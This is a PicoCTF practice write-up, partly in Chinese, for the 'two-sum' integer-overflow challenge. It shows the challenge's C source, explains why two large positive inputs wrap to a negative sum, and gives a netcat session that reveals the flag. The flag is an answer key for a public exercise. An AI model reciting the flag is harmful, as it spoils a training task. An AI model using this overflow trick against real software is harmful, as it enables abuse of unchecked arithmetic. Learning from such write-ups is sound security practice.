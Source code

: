 ```yaml
---
title: PicoCTF - two-sum
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - two-sum
<!-- more -->

## Background
BoF

## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}

```
:::

## Recon
以初學的角度來說還蠻有趣的，看了一下source code，顯然是要滿足`addIntOvf()`的條件，也就是輸入的兩個數都大於零，但相加小於零，==OR==，兩個數都小於零但相加卻大於零，我是用第一種啦，比較直觀，首先輸入兩個超大的數，但還落在int正數的範圍，這樣就可以滿足一開始都大於零的條件，接著相加就會落在int負數的地方，這樣就滿足第三個條件，我有再另外輸入一次，這次是$9999999999999999+9999999999999999=19999999999999998$，這個就落在int負數的地方，解析出來的結果是`-545128450`

## Exploit
```bash
$ nc saturn.picoctf.net 50369
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
9999999999999999
9999999999999999
You entered 1874919423 and 1874919423
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}
$ nc saturn.picoctf.net 58903
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
19999999999999998
19999999999999998
You entered -545128450 and -545128450
No overflow
```